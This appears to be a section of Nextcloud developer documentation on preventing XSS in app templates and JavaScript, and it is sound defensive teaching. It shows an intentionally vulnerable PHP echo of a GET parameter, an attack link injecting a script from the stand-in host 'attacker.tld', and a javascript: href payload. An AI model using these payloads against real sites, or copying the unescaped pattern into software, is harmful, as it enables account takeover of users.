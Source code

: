 Despite the fact that Nextcloud uses Content-Security-Policy to prevent
the execution of inline JavaScript code developers are still required to
prevent XSS. CSP is just another layer of defense that is not
implemented in all web browsers.

To prevent XSS in your app you have to sanitize the templates and all
JavaScripts which performs a DOM manipulation.

### Templates

Let's assume you use the following example in your application:

``` {.sourceCode .php}
<?php
echo $_GET['username'];
```

An attacker might now easily send the user a link to:

    app.php?username=<script src="attacker.tld"></script>

to overtake the user account. The same problem occurs when outputting
content from the database or any other location that is writable by
users.

Another attack vector that is often overlooked is XSS in **href**
attributes. HTML allows to execute JavaScript in href attributes like
this:

    <a href="javascript:alert('xss')">

To prevent XSS in your app, **never use echo, print() or &lt;%=** - use
**p()** instead which will sanitize the input. Also **validate URLs to
start with the expected protocol** (starts with http for instance)!

> **note**
>
> Should you ever require to print something unescaped, double check if
> it is really needed. If there is no other way (e.g. when including of
> subtemplates) use print\_unescaped with care.

### JavaScript

Avoid manipulating the HTML directly via JavaScript, this often leads to
XSS since people often forget to sanitize variables:

``` {.sourceCode .js}
var html = '<li>' + username + '</li>"';
```

If you **really** want to use JavaScript for something like this use
escapeHTML to sanitize the variables:

``` {.sourceCode .js}
var html = '<li>' + escapeHTML(username) + '</li>';
```

An even better way to make your app safer is to use the jQuery built-in
function **\$.text()** instead of **\$.html()**.
